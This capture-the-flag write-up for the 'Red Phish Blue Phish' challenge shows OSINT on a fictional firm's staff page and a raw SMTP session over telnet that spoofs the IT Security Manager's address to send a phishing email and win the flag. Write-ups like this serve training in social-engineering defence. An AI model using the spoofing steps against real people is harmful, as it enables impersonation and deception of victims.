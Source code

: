 # Red Phish Blue Phish
  
You are to conduct a phishing excercise against our client, Pyrch Data.  
We've identified the Marketing Director, Sarah Williams (swilliams@pyrchdata.com), as a user susceptible to phishing.  
Are you able to successfully phish her? Remember your OSINT ;)  
  
**NOTE: The port that becomes accessible upon challenge deployment is an SMTP server. Please use this for sending any phishing emails.**

-----

Given our target, `swilliams@pyrchdata.com`, we can navigate to the domain [pyrchdata.com](pyrchdata.com) to gather OSINT.

We see a [Meet the Team](https://pyrchdata.com/team) which confirms our target is the Head of Marketing. It also lists Joe Daveren as the IT Security Manager which is a plausible target for spoofing.

![[huntress/2024/images/Pasted image 20241002211411.png]]

![[huntress/2024/images/Pasted image 20241002211454.png]]

Given the format of our target, Joe Daveren's email is likely `jdaveren@pychrdata.com`.

We can connect to the SMTP server with `telnet` to send our phishing email. (Note, `telnet` is required due to the automatic inclusion of `<CR><LF>` whereas `nc` uses the line ending from the respective OS)

```
HELO pyrchdata.com
250 red-phish-blue-phish-4a15342fc478349a-845974f9f6-pbbc9
MAIL FROM:<jdaveren@pyrchdata.com>
250 OK
RCPT TO:<swilliams@pyrchdata.com>
250 OK
DATA
354 End data with <CR><LF>.<CR><LF> http://canarytokens.com/feedback/tags/articles/7gl5bofptyy0atmkqyab62l3c/post.jsp
.
250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```